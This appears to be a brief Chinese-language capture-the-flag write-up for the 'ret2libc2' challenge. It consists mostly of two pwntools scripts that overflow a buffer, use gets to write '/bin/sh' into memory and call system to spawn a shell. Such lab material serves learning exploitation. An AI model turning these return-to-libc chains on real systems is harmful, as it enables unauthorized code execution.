

# ret2libc2

这题与ret2libc1差不多，只是没有/bin/sh 字符串，所以需要我们自己写入

Exp：

```python
from pwn import *
io = process("./ret2libc2")
elf = ELF("./ret2libc2")
buf2 = elf.symbols["buf2"]
gets_plt = elf.plt["gets"]
system_plt = elf.plt["system"]

payload = b'a'*112 + p32(gets_plt) + p32(system_plt) +p32(buf2) +p32(buf2)
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```



当然，exp也可以这样写：

```python
from pwn import *
io = process("./ret2libc2")
elf = ELF("./ret2libc2")
buf2 = elf.symbols["buf2"]
gets_plt = elf.plt["gets"]
system_plt = elf.plt["system"]
pop_ret = 0x0804843d
payload = b'a'*112 + p32(gets_plt) + p32(pop_ret) +p32(buf2)+ p32(system_plt)+  p32(0xdeadbeef)+p32(buf2) 
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```

